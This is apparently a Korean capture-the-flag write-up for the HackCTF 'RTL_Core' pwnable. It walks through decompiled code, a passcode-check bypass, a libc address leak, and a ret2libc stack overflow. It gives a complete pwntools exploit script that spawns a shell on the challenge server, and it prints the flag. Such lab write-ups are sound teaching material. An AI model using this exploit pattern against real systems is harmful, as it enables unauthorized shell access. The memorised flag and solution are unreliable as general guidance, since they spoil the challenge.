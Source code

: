 #RTL_Core

---

우선 `main()`코드를 살펴보자.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-1Ch]

  setvbuf(_bss_start, 0, 2, 0);
  puts(&::s);
  printf("Passcode: ");
  gets(&s);
  if ( check_passcode((int)&s) == hashcode )
  {
    puts(&byte_8048840);
    core();
  }
  else
  {
    puts(&byte_8048881);
  }
  return 0;
}
</pre>

s에 문자열을 입력하면 `check_passcode()`를 통해서 계산된 값과 hashcode의 값이 같다면 `core()`함수로 이동할 수 있다. 우선 hashcode의 값은 다음과 같다.

<pre>
gdb-peda$ p hashcode
$1 = 0xc0d9b0a7
</pre>

그리고 `check_passcode()`함수는 다음과 같다.

<pre>
int __cdecl check_passcode(int a1)
{
  int v2; // [esp+8h] [ebp-8h]
  int i; // [esp+Ch] [ebp-4h]

  v2 = 0;
  for ( i = 0; i <= 4; ++i )
    v2 += *(_DWORD *)(4 * i + a1);
  return v2;
}
</pre>

`check_passcode()`함수는 내가 입력한 20bytes의 값을 4bytes단위로 끊어서 5개의 값을 각각 더한 결과를 의미한다. 따라서 다음과 같이 입력하여 hashcode checking을 통과할 수 있다.

**'\xa7\xb0\xd9\xc0'+'\x00\x00\x00\x00'\*4**

이렇게 `core()`함수로 이동하면 해당 함수의 코드는 다음과 같다.

<pre>
ssize_t core()
{
  int buf; // [esp+Ah] [ebp-3Eh]
  int v2; // [esp+Eh] [ebp-3Ah]
  __int16 v3; // [esp+12h] [ebp-36h]
  int v4; // [esp+38h] [ebp-10h]
  void *v5; // [esp+3Ch] [ebp-Ch]

  buf = 0;
  v2 = 0;
  v4 = 0;
  memset(
    (void *)((unsigned int)&v3 & 0xFFFFFFFC),
    0,
    4 * ((((unsigned int)&v2 - ((unsigned int)&v3 & 0xFFFFFFFC) + 46) & 0xFFFFFFFC) >> 2));
  v5 = dlsym((void *)0xFFFFFFFF, "printf");
  printf(&format, v5);
  return read(0, &buf, 0x64u);
}
</pre>

`core()`함수로 이동하게 되면 dlsym을 이용하여 `printf()`함수의 주소를 얻을 수 있게 된다. 그리고 이 `printf()`의 주소를 이용하여 offset을 구해서 libc_base를 구한 다음 system함수를 이용하여 쉘을 따낼 것이다.

이를 위해서 필요한 정보들은 다음과 같다.

<pre>
gdb-peda$ vmmap
Start      End        Perm	Name
...
0xf7dfe000 0xf7dff000 rw-p	mapped
0xf7dff000 0xf7faf000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
...
gdb-peda$ p printf
$2 = {<text variable, no debug info>} 0xf7e48670 <__printf>
gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xf7e39da0 <__libc_system>
gdb-peda$ p 0xf7e48670-0xf7dff000
$4 = 0x49670
gdb-peda$ p 0xf7e39da0-0xf7dff000
$5 = 0x3ada0
</pre>

**printf\_offset=0x49670**
**system\_offset=0x3ada0**

또한 /bin/sh문자열의 offset은 다음과 같다.

<pre>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5aa0b ("/bin/sh")
gdb-peda$ vmmap
Start      End        Perm	Name
...
0xf7dff000 0xf7faf000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
...
gdb-peda$ p 0xf7f5aa0b-0xf7dff000
$1 = 0x15ba0b
</pre>

**binsh_offset=0x15ba0b**

또한 `core()`함수에서 보면 입력받는 buf의 위치는 `core()+101`에서 볼 수 있듯이 [ebp-0x3e]와 같다.

<pre>
gdb-peda$ pd core
Dump of assembler code for function core:
...
   0x08048667 <+93>:	add    esp,0x10
   0x0804866a <+96>:	sub    esp,0x4
   0x0804866d <+99>:	push   0x64
   0x0804866f <+101>:	lea    eax,[ebp-0x3e]
   0x08048672 <+104>:	push   eax
   0x08048673 <+105>:	push   0x0
   0x08048675 <+107>:	call   0x8048450 <read@plt>
...
   0x08048684 <+122>:	ret    
End of assembler dump.
</pre>

따라서 0x3e+0x4=66이기 때문에 payload를 다음과 같이 구성한다면 ret주소를 조작할 수 있다.

**[dummy 66bytes]+[return address]**

이를 이용하여 다음과 같이 로컬 익스플로잇을 진행하였다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/15.RTL_Core$ python ex.py
[+] Starting local process './rtlcore': pid 5988
[*] printf address is 0xf7d6e670
[*] Switching to interactive mode
$ whoami
sjy0175
</pre>

하지만 실제 익스플로잇을 할 때는 사용하는 libc가 다르기 때문에 이대로 성공할 수는 없다.

이를 위해서 ELF를 이용해서 다음과 같이 원하는 정보를 들고와서 익스플로잇을 할 수 있다.

<pre>
from pwn import*

#p=process('./rtlcore')
p=remote('ctf.j0n9hyun.xyz', 3015)
libc=ELF('./libc.so.6')

payload='\xa7\xb0\xd9\xc0'
payload+='\x00\x00\x00\x00'*4

p.recvuntil(': ')
p.sendline(payload)

p.recvline()
p.recv(34)

printf_address=int(p.recv(10),16)
p.recvline()

log.info("printf address is "+str(hex(printf_address)))

printf_offset=libc.symbols['printf']
system_offset=libc.symbols['system']

libc_base=printf_address-printf_offset
system_address=libc_base+system_offset

binsh_address=libc.search("/bin/sh").next()+libc_base

payload2='A'*66
payload2+=p32(system_address)
payload2+='AAAA'
payload2+=p32(binsh_address)

p.sendline(payload2)

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/15.RTL_Core$ python ex2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3015: Done
[*] '/home/sjy0175/Desktop/HackCTF/Pwnable/15.RTL_Core/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf address is 0xf7e23020
[*] Switching to interactive mode
$ whoami
attack
$ ls
flag
main
$ cat flag
HackCTF{5ucc355ful_r7lc0r3_f1l3_4cc355}
</pre>

**flag: HackCTF{5ucc355ful_r7lc0r3_f1l3_4cc355}**


(?) p hashcode하면 hashcode 주소 아닌가?
(?) PIE아닌데 offset은 왜구함?